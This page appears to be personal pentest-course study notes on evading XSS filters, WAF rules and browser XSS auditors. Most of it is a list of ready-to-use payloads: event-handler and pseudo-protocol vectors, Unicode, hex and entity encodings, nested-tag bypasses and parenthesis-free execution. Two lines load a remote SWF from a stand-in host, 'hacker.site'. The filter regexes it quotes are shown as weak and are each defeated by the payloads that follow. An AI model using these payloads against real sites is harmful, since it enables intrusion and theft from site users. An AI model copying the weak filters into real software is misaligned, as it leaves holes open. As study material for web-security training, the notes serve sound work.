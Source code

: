 ```yaml
---
title: "4 - XSS Filter Evasion"
classes: single
header:  
  teaser: /assets/images/posts/ewptx/ewptx-teaser5.jpg
  overlay_image: /assets/images/main/header4.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "Bypass blacklisting Filters, sanitization and Browser Filters"
description: "Bypass blacklisting Filters, sanitization and Browser Filters"
categories:
  - notes
  - ewptx
tags:
  - advanced
  - pentest
  - web
  - bypass
toc: true
---
```


# Filter Evasion and WAF Bypassing

	https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet

	http://html5sec.org/
	
	
- Common scenarios

1. The XSS vector is blocked by the application or something else
2. The XSS vector is sanitized
3. The XSS vector is filtered or blocked by the browser



## Bypassing Blackliting Filters

Its the most common. Their goal is to detect specific patterns and prevent malicious behaviors.

### Inject Script Code
```js
<script>

# The <script> tag is the primary method which can be used to execute client-side scripting code such as javascript.
```

### Bypassing Weak script Tag Banning
```js
- Upper and Lower-case characters
- Upper and Lower-case without closing tag
- Random string after the tag name
- Newline after the tag name
- Nested tags
- NULL byte (IE up to v9)
# examples in images
```

## ModSecurity > Script Tag Based XSS Vectors Rule
There are several alternatives in which its possible to run our code, such as different HTML tags and related event handlers.

### Beyong <script> Tag... Using HTML Attributes
```js
<a href="javascript:alert(1)">show</a>
<a href="data:text/html;base64,<alert(1) encoded>"show</a>
<form action="javascript:alert(1)"><button>send</button></form>
<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>
<object data="javascript:alert(1)">
<object data="data:text/html;base64, <alert(1) encoded>">

# https://github.com/evilcos/xss.swf
<object data="//hacker.site/xss.swf">
<embed code="//hacker.site/xss.swf" allowscriptaccess=always>
```

### Beyong <script> Tag... Using HTML Events
- Events are they way that HTML DOM adds interactivity between the website and its visitors; This happens simply by executing the client-side code (e.g, JavaScript)

Almost all event handler identifier start with **on** and are followerd by the name of the event. One of the most used is **onerror**:
```js
<img src=x onerror=alert(1)>
```

→ but, there are maybe other events: http://help.dottoro.com/lhwfcplu.php

Examples:
```js
<body onload=alert(1)>
<input type=image src=x:x onerror=alert(1)>
<isindex onmouseover="alert(1)" >
<form oninput=alert(1)><input></form>
<texarea autofocus onfocus=alert(1)>
<input oncut=alert(1)>
<svg onload=alert(1)>
<keygen autofocus onfocus=alert(1)">
<video><source onerror="alert(1)">
<marquee onstart=alert(1)>
```

- From a defensive point of view, the solution is to filter all the events that start with **on** in order to block this injection point.

This is a very common regex you might find used widely:
```js
(on\w+\s*=)

# We can bypass this filter:
<svg/onload=alert(1)>
<svg//////onload=alert(1)>
<svg id=x; onload=alert(1)>
<svg id='x' onload=alert(1)>
```

So, we have an **Upgrade**:
```js
(?i)([\s\"'`;\/0-9\=]+on\w+\s*=)
```

- However, Some browsers convert the control character to a space, thus the \s meta-character is not enough to cover all possible chars.

We can bypass that too:
```js
<svg onload%09=alert(1)> # Works in all browsers except Safari
<svg %09onload=alert(1)>
<svg %09onload%20=alert(1)>
<svg onload%09%20%28%2C%3B=alert(1)>
<svg onload%0B=alert(1)>  # IE only
```

Browsers are in continuous evolution; Therefore, some of the chars allowed may not work anymore. So, Shazzer Fuzz DB has created two fuzzer tests:

→ http://shazzer.co.uk/vector/Characters-allowed-after-attribute-name

→ http://shazzer.co.uk/vector/Characters-allowed-before-attribute-name

To data, a valid regex rule should be the following:
```js
(?i)([\s\"'`;\/0-9\=\x00\x09\x0A\x0C\0x0D\x3B\x2C\x28\x3B]+on\w+[\s\x00\x09\x0A\x0C\0x0D\x3B\x2C\x28\x3B]*?=)
```

## Keyword Based Filters
There are filters focused on preventing scripting mode such as **alert, javascript, eval**

### Char Escaping
Here we see Unicode Escaping without using native functions:
```js
<script>\u0061lert(1)</script>
<script>\u0061\u006\u0065\u0072\u0074(1)</script>
```

Unicode escaping using native functions. Eval is just one of many:
```js
<script>eval("\u0061lert(1)")</script>
<script>eval("\u0061\u006\u0065\u0072\u0074\u0028\u0031\u0029")</script>
```

IF the filtered vector is within a string, in addition to Unicode, there are multiple escapses we may adopt:
```js
<img src=x onerror="\u0061lert(1)"/>
<img src=x onerror="eval('\141lert(1)')"/>     # octal escape
<img src=x onerror="eval('\x61lert(1)')"/>     # hexa escape

<img src=x onerror="eval('&#x0061;lert(1)')"/> # hexa numeric char reference
<img src=x onerror="eval('&#97;lert(1)')"/>    # decimal NCR
<img src=x onerror="eval('\a\l\ert(1\)')"/>    # superfluous escapes chars

<img src=x onerror="eval('\u0065val('\141\u006c&#101;&#x0072t\(&#49)')"/>  '
# All chars escaping can stay together.
```

### Contructing String
Javascript jas several functions useful to create string:
```js
/ale/.source+/rt/.source
String.fromCharCode(97,108,101,114,116)
atob("YWxlcnQ=")
177985081..toString(36)
```

### Execution Sinks
- Technically, functions that parse string as JavaScript code are called execution sinks, and JavaScript offers several alternatives.

Some Sinks:
```js
setTimeout("JSCode") //all browsers
setInterval("JSCode") //all browsers
setImmediate("JSCode") //IE 10+
Function("JSCode") //all browsers

# moreover: https://code.google.com/p/domxsswiki/wiki/ExecutionSinks
```

Variation of the Function sink:
```js
[].constructor.constructor(alert(1))
```

|object | array   | function  | XSS vector|


### Pseudo-protocols
**javascript:** is an unofficional URI scheme, commonly referred as a pseudo-protocol.

- javascript followerd by (:) is usually blocked

Example:
```js
<a href="javascript:alert(1)"/>    " //blocked
# javascript: is not needed on event handlers; SO, we should avoid using it.
```

Bypass examples:
```js
<object data="JaVScRiPt:alert(1)">
<object data="javascript&colon;:alert(1)">
<object data="java
script:alert(1)">
<object data="javascript&#x003A;alert(1)">
<object data="javascript&#58;alert(1)">
<object data="&#x6A;avascript:alert(1)">
<object data="&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;alert(1)">
```

- In addition to **javascript:**, there are also **data:** and the IE exclusive **vbscript:**

Data URI scheme:
```js
data:[<mediatype>][;base64],<data>

# mediatype is usually 'text/html'
```

If **javascript:** is blocked:
```js
<object data="data:text/html,<script>alert(1)</script>">
<object data="data:text/html,base64,<base64 encoded>">
```

If **data:** is blocked:
```js
<embed code="DaTa:text/html,<script>alert(1)</script>">
<embed code="data&colon;text/html,<script>alert(1)</script>">
<embed code="data&#x003A;text/html,<script>alert(1)</script>">
<embed code="&#x64;&#x61;ta:text/html,<script>alert(1)</script>">
```

The **vbscript** pseudo-protocol is not so common, because it can only be used with IE.

- From IE11 in Edge, vbscript is no longer supported.

How to use vbscript:
```js
<img src=a onerror="vbscript:msgbox 1"/> //works till IE8
<img src=b onerror="vbs:msgbox 2"/> //works till IE8
<img src=c onerror="vbs:alert(3)"/>   "//works till IE Edge
<img src=d onerror="vbscript:alert(4)"/>  "//works till IE Edge
```

Bypass vbscript:
```js
<img src=x onerror="vbscript&#x003A;alert(1)"/>    "
<img src=x onerror="vb&#x63;cript:alert(1)"/>       "

<img src=x onerror="v&#00;bs&#x00;cri pt:alert(1)"/> //using NUL bytes
```

Tool to obfuscate:
```js
http://dennisbabkin.com/screnc/
```








## Bypassing Sanitization

The most common is to HTML-encode such as:
```js
< (&lt;)
> (&gt;)
```

### String Manipulations
Example: 
```js
removing <script> tag
```

### Removing HTML tags
The check is not performed recursively:
```js
<scr<script>ipt>alert(1)</script> # this could be a bypass
```

If the filter performs recursive checks, we can still bypass. maybe changing the order of injected strings.
```js
<scr<iframe>ipt>alert(1)</script> //this could be a bypass
```

- it all depends on the filter that we are facing

→ moreover: https://els-cdn.content-api.ine.com/eda3ac9d-554a-469a-98c6-639c90f0c7a5/index.html#

### Escaping Quotes
- Filters place the backslash char **\** before quotes to escape that kind of character

Example:
```js
randomkey\' alert(1);  # escape the apostrophe
randomkey\\' alert(1); # escape the backslash
```

One of useful Javascript methods is:
```js
String.fromCharCode()
```

It allows us to generate strings starting from a sequence of Unicode values:
```js
String.fromCharCode(120,115,9416)

# u+0078 Latin Small Letter x
# u+0073 Latin small Letter s
# u+24C8 Circled Latin capital letter (S)
```

```js
/your string/.source  //space allowed
43804..toString(36)   //spaces not allowed in Base36
```

Using unescape method:
```js
unescape(/%78%u0073%73/.source) //its deprecated
```

Using decodeURI and decodeURIComponent:
```js
# in this case, characters needs to be URL-encoded to avoid URI malformed errors

decodeURI(/alert(%22xss%22)/.source)
decodeURIcomponent(/alert(%22xss%22)/.source)
```

- These methods could be useful if you can inject into a script or event handler. nut you cannot use quotation marks because they are properly escaped.
- Dont forget that each of them will return a string, so you need an execution **sink** to trigger the code (IE: **eval**)


### Escaping Parentheses
- The technique abuses the onerror handler, assigning a function to call once an error has been generated using throw followed by the arguments to the function assigned to the error handler.

→ moreover: http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/

```js
<img src=x onerror="window.onerror=eval;throw'=alert\x281\x29'">
# eval - function to invoke in case of error
# throw - generate the error
# alert... - parameters For the error function

onerror=alert;throw 1; // a simple version
# does not work in Firefox and IE
```

And since the arguments section is quoted, its possible to do some encoding like the following:
```js
<img src=x onerror="window.onerror=eval;throw'\u003d&#x006C;ert&#x0028;18#41;'"/>
```





## Bypassing Browser Filters
They dont cover all possible XSS attacl scenarios and they focus on Reflected type of XSS.

### UnFiltered Scenarios - Injecting Inside HTML Tag
```js
<svg/onload=alert(1)> # its detected by all main filters
```

```js
# Just by removing the final (>) we jave a bypass For browsers with XSSAuditor
<svg/onload=alert(1) // works chromium based browser
```

Injecting inside HTML Tag Attributes:
```js
site.com/inject?x=giuseppe"><svg/onload=alert(1)>
```

We can bypass WebKit with:
```js
site.com/inject?x=giuseppe"><a/href="data:text/html;base64,<base64 payload>">clickhere<!--
```

Injecting Inside SCRIPT Tag:
```js
site.com/inject?name=belucci";alert(1);//
```

Injecting Inside Event Attributes:
```js
site.com/inject?roomID=alert(1)
```

DOM Based:
```js
site.com/inject?next=javascript:alert(1)
```

- DOM Based, there are other scenarios that are not covered by browsers filters.

> For example, **fragmented** vectors in multiple GET parameters or attacks that are not reflected in the same page, mXSS, etc.

